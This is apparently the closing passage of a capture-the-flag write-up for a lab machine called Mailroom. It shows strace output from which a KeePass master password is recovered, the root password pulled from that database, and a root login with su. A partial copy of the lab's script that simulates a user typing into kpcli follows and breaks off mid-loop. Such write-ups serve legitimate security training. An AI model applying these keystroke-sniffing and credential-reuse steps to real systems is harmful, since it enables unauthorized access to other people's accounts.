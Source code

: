 ```jsx
fcntl(0, F_GETFL)                       = 0x2 (flags O_RDWR)
fcntl(0, F_SETFL, O_RDWR|O_NONBLOCK)    = 0
read(0, 0x5596e361ea20, 8192)           = -1 EAGAIN (Resource temporarily unavailable)
fcntl(0, F_GETFL)                       = 0x802 (flags O_RDWR|O_NONBLOCK)
fcntl(0, F_SETFL, O_RDWR)               = 0
clock_nanosleep(CLOCK_REALTIME, 0, {tv_sec=0, tv_nsec=50000000}, NULL) = 0
fcntl(0, F_GETFL)                       = 0x2 (flags O_RDWR)
fcntl(0, F_SETFL, O_RDWR|O_NONBLOCK)    = 0
read(0, "\n", 8192)                     = 1
fcntl(0, F_GETFL)                       = 0x802 (flags O_RDWR|O_NONBLOCK)
fcntl(0, F_SETFL, O_RDWR)               = 0
ioctl(0, TCGETS, {B38400 opost -isig -icanon -echo ...}) = 0
ioctl(0, TCGETS, {B38400 opost -isig -icanon -echo ...}) = 0
ioctl(0, SNDCTL_TMR_START or TCSETS, {B38400 opost isig icanon echo ...}) = 0
ioctl(0, TCGETS, {B38400 opost isig icanon echo ...}) = 0
```

After doing a bit of parsing and cleaning out, I got the key

```jsx
!sEcUr3p4$$w0rd9
```

Downloading the database, I accessed it via GUI (I could’ve accessed it via `kpcli` but I prefer GUI), we can see that it stores password for the sites along with the `root` user’s password:

![](/img/Mailroom_80349240b60d40f697ec5fe41f13d646/Untitled_19.png)

```jsx
root:a$gBa3!GA8
```

We can just authenticate as `root` using `su` and we got the access as `root` user

![](/img/Mailroom_80349240b60d40f697ec5fe41f13d646/Untitled_20.png)

---

```jsx
#!/usr/bin/python3 - matthew_kpcli.py
import os, random, time, hashlib
import pexpect

## This script is used to simulate matthew logging into his database in real time

db_path = '/home/matthew/personal.kdbx'
db_original = '/root/personal.kdbx'
db_checksum = hashlib.md5(open(db_original, 'rb').read()).hexdigest()
runas_user = 'matthew'

def send_human(k, txt):
    """
    Send each character separately with a slight delay to emulate a human typing
    """
    for ch in txt:
        k.send(ch)
        k.delaybeforesend = random.uniform(0.05, 0.25)
    k.send(os.linesep)

def main():

    k = pexpect.spawn(f'/usr/bin/su - {runas_user} -c "/usr/bin/kpcli"')
    time.sleep(3)
    k.expect('kpcli:/> ')
    try:
        while True:
            # Verify md5sum or db, if fails copy back
```